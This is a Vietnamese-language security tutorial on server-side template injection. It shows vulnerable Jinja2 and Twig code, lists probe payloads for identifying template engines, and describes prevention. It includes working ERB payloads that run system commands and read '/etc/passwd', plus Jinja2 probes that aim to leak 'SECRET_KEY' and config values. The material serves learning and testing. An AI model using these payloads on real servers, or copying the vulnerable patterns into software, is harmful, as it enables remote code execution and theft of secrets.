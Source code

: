 ## Lỗ hổng SSTI là gì?
- Template rendering - Chèn mẫu là quá trình truyền dữ liệu vào một mẫu được xây dựng bằng ngôn ngữ mẫu (template language).

*Ví dụ về chèn mẫu EJS trong app NodeJS*

```javascript
import express from 'express';
const app = express();
const port = 3000;

app.set('view engine', 'ejs');

app.get('/', (req, res) => {
    const { username } = req.query;
    res.render('index', { username: username || 'Guest' });
});

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`);
});
```

```html
<!-- views/index.ejs -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Welcome</title>
</head>
<body>
    <h1>Welcome, <%= username %>!</h1>
</body>
</html>
```

- **Server-side template injection (SSTI)** là dạng lỗ hổng cho phép kẻ tấn công tiêm các payload (tạo bởi chính ngôn ngữ mẫu đó) vào các mẫu, và chúng được thực thi tại phía server. 

*Ví dụ về lỗ hổng SSTI trong app Python*
```python
@app.route("/page")
def page():
    name = request.values.get('name')
    output = Jinja2.from_string('Hello ' + name + '!').render()
    return output
```

```sh
$ curl -g 'http://www.target.com/page?name={{7*7}}'
Hello 49!
```

*Ví dụ về lỗ hổng SSTI trong app PHP*
```php
//no vul
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) ); 

//vul
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```

## Nguyên nhân
- Server không validate input từ người dùng

## Hậu quả
- Thực thi mã tùy ý

- Khai thác RCE để kiểm soát toàn bộ hệ thống

## Cách phát hiện
- Thử các payload có thể khai thác lỗ hổng SSTI
```
{7*7}
${7*7}
{{7*7}}
<%7*7%>
<%7*7%>
[% 7*7 %]
```

### Ví dụ
Java
```
${7*7}
${{7*7}}
```

FreeMarker (Java)
```
{{7*7}} = {{7*7}}
${7*7} = 49
#{7*7} = 49 -- (legacy)
${7*'7'} Nothing
${foobar}
```

ERB (Ruby)
```
{{7*7}} = {{7*7}}
${7*7} = ${7*7}
<%= 7*7 %> = 49
<%= foobar %> = Error
```

Jinja2 (Python)
```
{{7*7}} = Error
${7*7} = ${7*7}
{{foobar}} Nothing
{{4*4}}[[5*5]]
{{7*'7'}} = 7777777
{{config}}
{{config.items()}}
{{settings.SECRET_KEY}}
{{settings}}
{% debug %}
```

. .

## Khai thác
- Thử các payload
```
{7*7}
${7*7}
{{7*7}}
<%7*7%>
<%7*7%>
[% 7*7 %]
```

- Xác định ngôn ngữ mẫu 

<p align="center">
<img src="https://github.com/pentest-khoa-02/TheMinh/blob/main/Week%2018/images/1.png" width="666px">
</p>

- Đọc tài liệu của ngôn ngữ mẫu để tiến hành khai thác sâu hơn

- Sử dụng các payload có sẵn

*Ví dụ về các mã khai thác của ERB (Ruby)*
```
{{7*7}} = {{7*7}}
${7*7} = ${7*7}
<%= 7*7 %> = 49
<%= foobar %> = Error
```
```sh
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

## Cách ngăn chặn
- Validate input từ người dùng.

- Dùng các ngôn ngữ mẫu có tính năng escape tự động.